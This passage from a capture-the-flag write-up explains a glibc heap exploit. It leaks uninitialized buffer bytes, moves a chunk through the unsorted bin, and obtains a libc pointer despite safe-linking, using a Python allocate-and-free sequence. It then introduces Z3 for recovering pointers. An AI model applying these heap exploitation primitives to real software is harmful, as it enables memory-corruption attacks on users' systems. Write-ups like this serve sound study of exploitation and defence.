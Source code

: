 We will exploit the fact that we can leave the input buffer uninitialized by just sending a newline when asked for content. Since the read operation gives us a value derived from the first 8 bytes of an input buffer, we can print the first 8 (uninitialized!) bytes in the input buffer after it is allocated.

In the glibc heap, chunks that come from tcache are part of a singly-linked list and will have a pointer to another heap chunk in the first 8 bytes. On glibc 2.32+, this pointer is ["safe-linked"](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/) (which seems to be where the title for the challenge comes from). 

Chunks coming from the 'unsorted bin' of the glibc heap can instead contain a pointer into libc itself. To get a chunk allocated into the unsorted bin, we do the following, and then that chunk reallocated as a input buffer:



```py
create_not_secret(0, b"YOLOYOLO"*2)
create_not_secret(1, b"YOLOYOLO"*2)
create_not_secret(2, b"YOLOYOLO"*2)
create_not_secret(3, b"YOLOYOLO"*2+b"\n", l=0x1000)
create_not_secret(4, b"YOLOYOLO"*2)

delete(0)
delete(1)
delete(2)
delete(3) # Input buffer free'd into unsorted bin

# The 0x20 tcache is now full

delete(4) # This input buffer and note are adjacent to 3's input buffer
create_secret(0, b"\n")
create_secret(1, b"\n")
create_secret(2, b"\n")
create_not_secret(3, b"\n", l=0x1080) # 3 and 4 will be consolidated
delete(3) # free the consolidated chunk, returns to wilderness

create_secret(4, b"\n") # 

# the first 8 bytes of the input buffer for 4 now contain a libc pointer
```

My guess is the above can be simplified, but we didn't put any thought into it during the CTF since it gave us the leak we needed to move forward.


### Step 2: Using the mysterious leaked values and Z3, recover the original pointer

Early on, I wanted to explore the properties of the odd one-time leak that this program provided. Given that I knew exactly how the leaked values were computed but didn't know how to use them, I turned to an SMT solver (Z3) to try to solve for the original leaked value. I wrote a proof-of-concept and it turns out it was able to recover the original value! My original POC below tries to recover the original pointer assuming we try to leak a *protected* safe-linked pointer.
